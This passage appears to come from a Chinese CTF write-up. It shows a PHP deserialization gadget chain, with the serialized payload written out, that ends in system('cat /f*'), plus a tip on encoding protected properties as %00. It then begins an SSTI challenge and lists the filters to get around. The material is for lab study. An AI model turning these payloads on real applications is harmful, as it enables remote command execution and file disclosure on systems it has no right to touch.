 ```
$begin->name=new Then();
echo serialize($begin);
#O:5:"Begin":1:{s:4:"name";O:4:"Then":1:{s:10:" Then func";O:5:"Super":1:{s:6:" * obj";O:6:"Handle":1:{s:6:" * obj";O:3:"CTF":1:{s:6:"handle";O:8:"WhiteGod":2:{s:4:"func";s:6:"system";s:3:"var";s:7:"cat /f*";}}}}}}
```

其中的私有属性或者受保护属性在序列化字符串中会存在不可见字符，要将其修改为%00

最终效果如下👇

![](./images/1697551240-image.png)

### GenShin

在http响应包里发现一个路由，访问进去

![](./images/1697554499-image.png)

然后就是正常的SSTI注入

测试发现过滤了单引号、等号、init关键字等，而且只能通过print来回显

由于init被过滤了，能利用的函数就很少了

这里能够使用最简单的就是文件读取模块
